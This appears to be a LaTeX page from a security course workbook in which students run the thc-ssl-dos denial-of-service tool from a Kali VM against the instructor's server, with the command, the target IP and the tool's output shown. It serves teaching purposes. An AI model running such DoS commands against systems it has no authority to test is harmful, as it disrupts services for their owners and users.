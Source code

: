 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Purpose:}\\
Running testing tools will allow you to analyse your robustness against various attack types. Best case you will find the bottle-necks before the attackers.


{\bf Suggested method:}\\
Run the program from your Kali Linux VM against my server, as shown below.

\begin{alltt}\footnotesize
$ host www.kramse.org                                                                255 ⨯
www.kramse.org has address 185.129.60.130
www.kramse.org has IPv6 address 2a06:d380:0:101::80

┌──(hkj㉿cornerstone01)-[~]
└─$ thc-ssl-dos --accept 185.129.60.130 443
     ______________ ___  _________
     \__    ___/   |   \ \_   ___ \
       |    | /    ~    \/    \  \/
       |    | \    Y    /\     \____
       |____|  \___|_  /  \______  /
                     \/          \/
            http://www.thc.org

          Twitter @hackerschoice

Greetingz: the french underground

Waiting for script kiddies to piss off................
The force is with those who read the source...
Handshakes 0 [0.00 h/s], 1 Conn, 0 Err
thc-ssl-dos.c:392 SSL_renegotiate() failed
thc-ssl-dos.c:392 SSL_renegotiate() failed
Handshakes 0 [0.00 h/s], 273 Conn, 9 Err
\end{alltt}

{\bf Hints:}\\
There is a description on the kali.org homepage:



{\bf Solution:}\\
When you have tried running the tool, you are done.

Discuss with nearby students, would this be a tool you would perhaps use, why or why not.

{\bf Discussion:}\\
THC The Hackers Choice has been producing tools since 1995, their home page is at: 





\chapter{Django String Handling 20min}
\label{ex:django-string}
\end{document}

